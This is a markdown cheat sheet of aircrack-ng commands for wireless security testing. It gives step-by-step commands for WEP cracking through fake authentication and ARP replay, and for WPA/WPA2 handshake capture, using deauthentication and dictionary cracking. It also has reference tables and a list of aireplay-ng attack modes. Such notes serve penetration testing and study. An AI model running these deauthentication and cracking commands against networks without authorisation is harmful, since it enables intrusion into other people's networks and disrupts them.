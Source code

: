 # Aircrack-ng :
   * [Injection test](https://www.aircrack-ng.org/doku.php?id=injection_test)
     ##### The injection test determines if your card can successfully inject and determine the ping response times to the Access Point (AP)
      ```bash
         # List wireless interfaces
         iwconfig
         # Start the wireless interface in monitor mode on a specific AP channel
         airmon-ng start wlan0 8
         # Test the injection capability of the wireless device to the AP
         aireplay-ng -9 -e teddy -a 00:14:6C:7E:40:80 wlan0mon 
      ```
   ## WEP crack
   * [Flowchart : Wep Cracking](http://www.aircrack-ng.org/img/simple-wep-crack.gif)
   * [Crack WEP (with client)](https://www.aircrack-ng.org/doku.php?id=simple_wep_crack) (fake authentication combined with ARP request replay technique)
    
     * List wireless interfaces
       * **iwconfig**
     * Start the wireless interface in monitor mode on the specific AP channel
       *  **airmon-ng start wlan0**
     * Show available AP
       * **airodump-ng wlan0mon**
     * Start airodump-ng to capture the IVs
       * **airodump-ng -c 9 --bssid 00:14:6C:7E:40:80 -w output wlan0mon**
     * Use aireplay-ng to do a fake authentication with the access point (To associate with an access point)
       * **aireplay-ng -1 0 -e teddy -a 00:14:6C:7E:40:80 -h 00:0F:B5:88:AC:82 wlan0mon**
     * Start aireplay-ng in ARP request replay mode to inject packets
       * **aireplay-ng -3 -b 00:14:6C:7E:40:80 -h 00:0F:B5:88:AC:82 wlan0mon**
     * Run aircrack-ng to crack key using the IVs collected
       * **aircrack-ng -b 00:14:6C:7E:40:80 output*.cap**

   * [Crack WEP (without client)](https://www.aircrack-ng.org/doku.php?id=how_to_crack_wep_with_no_clients)

  # WAP crack
  
   * Crack WPA/WPA2 pre-shared key
     * Start airodump-ng to collect authentication handshake
       * **airodump-ng -c 9 --bssid 00:14:6C:7E:40:80 -w psk wlan0mon**
     * Use aireplay-ng to deauthenticate the wireless client
       * **aireplay-ng -0 1 -a 00:14:6C:7E:40:80 -c 00:0F:B5:FD:FB:C2 wlan0mon**
     * Run aircrack-ng to crack the pre-shared key
       * **aircrack-ng -w password.lst -b 00:14:6C:7E:40:80 psk*.cap**

  # WPS crack pin

   * [The upper data block shows the access points found](https://www.aircrack-ng.org/doku.php?id=newbie_guide)

      Name | Description
      ------------ | -------------
      **BSSID**   |	The MAC address of the AP|
      **PWR**     |	Signal strength. Some drivers don't report it|
      **Beacons** |	Number of beacon frames received. If you don't have a signal strength you can estimate it by the number of beacons: the more beacons, the better the signal quality|
      **Data** 	|Number of data frames received|
      **CH** 	    |Channel the AP is operating on|
      **MB**      |	Speed or AP Mode. 11 is pure 802.11b, 54 pure 802.11g. Values between are a mixture|
      **ENC**     |	Encryption: OPN: no encryption, WEP: WEP encryption, WPA: WPA or WPA2 encryption, WEP?: WEP or WPA (don't know yet)|
      **ESSID**   |	The network name. Sometimes hidden |

   * [The lower data block shows the clients found](https://www.aircrack-ng.org/doku.php?id=newbie_guide) 

      Name | Description
      ------------ | -------------
      | **BSSID**   | The MAC of the AP this client is associated to |
      | **STATION** | The MAC of the client itself |
      | **PWR**     | Signal strength. Some drivers don't report it  |
      | **Packets** | Number of data frames received  |
      | **Probes**  | Network names (ESSIDs) this client has probed |

   * [different attacks](https://www.aircrack-ng.org/doku.php?id=aireplay-ng)

     * **--deauth count** : deauthenticate 1 or all stations (-0)
     * **--fakeauth delay** : fake authentication with AP (-1)
     * **--interactive** : interactive frame selection (-2)
     * **--arpreplay** : standard ARP-request replay (-3)
     * **--chopchop** : decrypt/chopchop WEP packet (-4)
     * **--fragment** : generates valid keystream (-5)
     * **--caffe-latte** : query a client for new IVs (-6)
     * **--cfrag** : fragments against a client (-7)
     * **--test** : tests injection and quality (-9)
     
     
